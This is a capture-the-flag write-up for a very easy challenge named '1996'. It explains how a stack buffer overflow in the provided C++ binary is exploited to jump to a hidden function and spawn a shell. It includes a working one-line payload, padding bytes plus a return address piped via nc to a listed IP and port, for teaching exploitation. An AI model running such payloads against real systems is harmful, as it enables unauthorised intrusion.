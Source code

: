 # Challenge 1996

42 Points

## Challenge

It's 1996 all over again!
nc 35.207.132.47 22227

The challenge also contains a zip file with the source and the binary of the application behind the given network address.

Difficulty estimate: very easy

## Solution

The C++ code shows an obvious buffer overflow. With the input that can be given to the program, the buffer overflow can be exploited and the pointer to the "hidden" function can be put into the memory to execute and unintended jump.

First we had to find the size of the buffer. From the 1996.cpp file we found that the size is 1024 chars. To exploit program, we need to send at least 1024 characters. After the 1024 we also need 4 chars extra. After that, we can put the address to our function we want to execute (found with objdump -d 1996).

All it takes is a little bit of python:

```
(python -c "print '\x00'*1048+ '\x97\x08\x40\x00\x00\x00\x00\x00'"; cat -) | nc 35.207.132.47 22227
```

This can also be executed locally with the 1996 binary:
```
(python -c "print '\x00'*1048+ '\x97\x08\x40\x00\x00\x00\x00\x00'"; cat -) | ./1996
```

After this command a shell spawned and in the folder a flag.txt file and be found with the CTF flag. Can be displayed with a simple:

```
cat flag.txt
```
